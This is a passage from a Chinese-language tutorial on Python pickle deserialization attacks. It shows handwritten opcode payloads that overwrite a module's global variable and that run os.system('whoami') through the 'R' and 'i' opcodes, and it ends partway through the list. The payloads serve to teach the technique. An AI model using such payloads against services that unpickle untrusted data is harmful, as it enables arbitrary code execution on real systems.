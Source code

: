 #### 拼接opcode

将第一个pickle流结尾表示结束的 `.` 去掉，将第二个pickle流与第一个拼接起来即可。

#### 全局变量覆盖

python源码：

```
# secret.py
name='TEST3213qkfsmfo'
# main.py
import pickle
import secret

opcode='''c__main__
secret
(S'name'
S'1'
db.'''

print('before:',secret.name)

output=pickle.loads(opcode.encode())

print('output:',output)
print('after:',secret.name)
```

首先，通过 `c` 获取全局变量 `secret` ，然后建立一个字典，并使用 `b` 对secret进行属性设置，使用到的payload：

```
opcode='''c__main__
secret
(S'name'
S'1'
db.'''
```

#### 函数执行

与函数执行相关的opcode有三个： `R` 、 `i` 、 `o` ，所以我们可以从三个方向进行构造：

1. `R` ：

```
b'''cos
system
(S'whoami'
tR.'''
```

1. `i` ：

```
b'''(S'whoami'
ios
system
.'''
```
